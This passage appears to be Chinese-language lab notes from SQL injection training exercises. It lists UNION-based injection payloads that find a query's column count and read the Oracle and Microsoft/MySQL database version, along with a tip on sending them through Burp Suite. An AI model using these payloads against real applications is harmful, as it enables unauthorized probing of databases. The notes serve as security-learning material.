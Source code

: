 - ![image-20221117201907974](images/image-20221117201907974.png)

### T6查询Oracle的类型和版本

首先确定了列数以及类型

```SQL
Accessories'union select null,null from dual--
Accessories'+UNION+SELECT+'abc','def'+FROM+dual--
```

然后查询数据库版本

```SQL
Accessories' UNION SELECT banner,'null' FROM v$version--
```

### T7查询Microsoft的类型和版本

>  踩坑：
>
> sql注入的语句要写在burpsuite抓到的包里，且空格需要用加号代替。才能看出返回的结果到底报不报错。

```sql
gifts'+union+select+@@version,'null'#
```

## 再查询库本身带的保留字
